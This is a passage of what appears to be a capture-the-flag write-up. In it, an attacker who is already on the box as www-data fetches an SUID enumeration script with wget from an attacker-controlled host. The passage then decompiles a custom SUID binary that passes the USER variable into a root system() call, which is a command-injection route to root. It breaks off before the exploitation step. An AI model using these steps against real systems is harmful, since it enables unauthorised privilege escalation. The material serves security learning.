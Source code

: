 
wget http://10.11.14.220:8080/suid3num.py


```
[~] Custom SUID Binaries (Interesting Stuff)
------------------------------
/bin/authenticate
```
let try it out
```
www-data@wwbuddy:/var/www/html$ authenticate
authenticate
You need to be a real user to be authenticated.
```
get to our kali and use Ghidra to reverse engineer it.
```c
undefined8 main(void)

{
  __uid_t __uid;
  int iVar1;
  char *__src;
  long in_FS_OFFSET;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined4 local_20;
  undefined local_1c;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __uid = getuid();
  if ((int)__uid < 1000) {
    puts("You need to be a real user to be authenticated.");
  }
  else {
    iVar1 = system("groups | grep developer");
    if (iVar1 == 0) {
      puts("You are already a developer.");
    }
    else {
      __src = getenv("USER");
      __uid = getuid();
      setuid(0);
      local_48 = 0x20646f6d72657375;
      local_40 = 0x6c6576656420472d;
      local_38 = 0x207265706f;
      local_30 = 0;
      local_28 = 0;
      local_20 = 0;
      local_1c = 0;
      strncat((char *)&local_48,__src,0x14);
      system((char *)&local_48);
      puts("Group updated");
      setuid(__uid);
      system("newgrp developer");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
```